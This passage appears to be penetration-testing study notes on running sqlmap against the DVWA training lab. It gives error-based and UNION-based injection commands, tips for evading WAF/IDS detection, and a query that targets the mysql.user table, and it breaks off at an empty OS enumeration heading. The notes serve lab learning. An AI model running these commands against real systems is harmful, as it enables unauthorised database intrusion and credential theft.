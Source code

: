 #### 1.3.2 - Error-Based Query SQL Injection

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --dbms=mysql --technique=E
```

#### 1.3.3 - UNION Query SQL Injection

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --dbms=mysql --technique=U
```

- You can specify number of columns after performing [[03 - UNION Query SQL Injection#^78ef92|fields enumeration]].

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --dbms=mysql --technique=U --union-cols=2
```

- By default when enumerating the number of fields it uses `NULL` character. In some instances that WAF/IDS might flag it. We can use `--union-char` with a random combination of characters..

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --dbms=mysql --technique=U --union-cols=2 --union-char=1234567890ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz
```

- Some instances of DBMSes may require a valid table in order to proceed by exploiting the vulnerability. Especially when it comes to UNION technique we can use `--union-from` to specify the table `mysql.user` that comes by default in MySQL.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --dbms=mysql --technique=U --union-cols=2 --union-from=mysql.user
```

### 1.4 - Specify Boundaries

- You can specify the boundaries with flags `--prefix="'"` and `--suffix="#"` after performing manual enumeration in the [[02 - Error-based Query SQL Injection#^bc051d|joining the query]] section.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --dbms=mysql --prefix="'" --suffix="#" --technique=U
```
## 02 - Enumeration

### 2.1 -  OS Enumeration

#### 2.1.1 - General
